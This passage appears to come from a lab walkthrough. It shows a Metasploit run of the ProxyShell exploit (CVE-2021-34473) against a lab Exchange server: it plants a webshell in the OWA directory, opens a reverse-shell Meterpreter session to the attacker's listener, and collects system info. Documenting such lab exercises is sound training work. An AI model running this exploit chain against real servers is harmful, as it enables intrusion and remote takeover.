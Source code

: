 ```

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.8.97.213      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Windows Powershell

View the full module info with the info, or info -d command.
```

Type `exploit` or `run` to start the process:

```
msf6 exploit(windows/http/exchange_proxyshell_rce) > exploit

[*] Started reverse TCP handler on 10.8.97.213:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Attempt to exploit for CVE-2021-34473
[*] Retrieving backend FQDN over RPC request
[*] Internal server name: win-12ouo7a66m7.thm.local
[*] Assigning the 'Mailbox Import Export' role via dev-infrastracture-team@thm.local
[+] Successfully assigned the 'Mailbox Import Export' role
[+] Proceeding with SID: S-1-5-21-2402911436-1669601961-3356949615-1144 (dev-infrastracture-team@thm.local)
[*] Saving a draft email with subject 'BBqp8NFdcOe' containing the attachment with the embedded webshell
[*] Writing to: C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\5mm7yoxmQgT.aspx
[*] Waiting for the export request to complete...
[+] The mailbox export request has completed
[*] Triggering the payload
[*] Sending stage (200774 bytes) to 10.10.197.52
[+] Deleted C:\Program Files\Microsoft\Exchange Server\V15\FrontEnd\HttpProxy\owa\auth\5mm7yoxmQgT.aspx
[*] Meterpreter session 1 opened (10.8.97.213:4444 -> 10.10.197.52:8568) at 2023-07-26 04:47:54 -0400
[*] Removing the mailbox export request
[*] Removing the draft email

meterpreter > sysinfo
Computer        : WIN-12OUO7A66M7
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : THM
Logged On Users : 11
Meterpreter     : x64/windows

meterpreter >
```
